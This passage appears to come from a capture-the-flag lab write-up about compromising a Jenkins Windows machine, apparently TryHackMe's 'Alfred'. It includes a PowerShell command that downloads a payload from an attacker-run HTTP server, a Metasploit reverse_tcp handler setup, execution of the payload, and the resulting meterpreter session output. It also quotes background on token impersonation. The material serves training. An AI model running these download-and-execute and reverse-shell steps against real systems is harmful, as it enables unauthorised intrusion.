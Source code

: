 The answer is **73802**.

Now, we upload the malicious payload on the machine. 
We, first, run a python server on our Kali machine:
```
python -m
```
Then from our unstable shell on the victim machine, we run from this:
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```
This command will download the shell.exe that we had to generate.

Now, we set a listener on Metasploit by using the multi/handler module:
```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip 
set LPORT listening-port 
run
```

And, finally, from the victim machine we run the shell.exe, by executing:
```
Start-Process "shell.exe"
```

By returning in the listener we have a stable shell:
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.80.159:4444 
[*] Sending stage (175174 bytes) to 10.10.243.42
[*] Meterpreter session 1 opened (10.8.80.159:4444 -> 10.10.243.42:49416) at 2021-04-02 11:45:10 -0400

meterpreter > shell
Process 1520 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Jenkins\workspace\project>whoami 
whoami 
alfred\bruce
```


### <span style="color: var(--link-color);"> [Task 3] - Privilege Escalation </span>

> Now that we have initial access, let's use token impersonation to gain system access.
> 
> Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).
> 
> This access token consists of:
> 
>    - user SIDs(security identifier)
>    - group SIDs
>    - privileges
> 
> amongst other things. More detailed information can be found here.
> 
> There are two types of access tokens:
> 
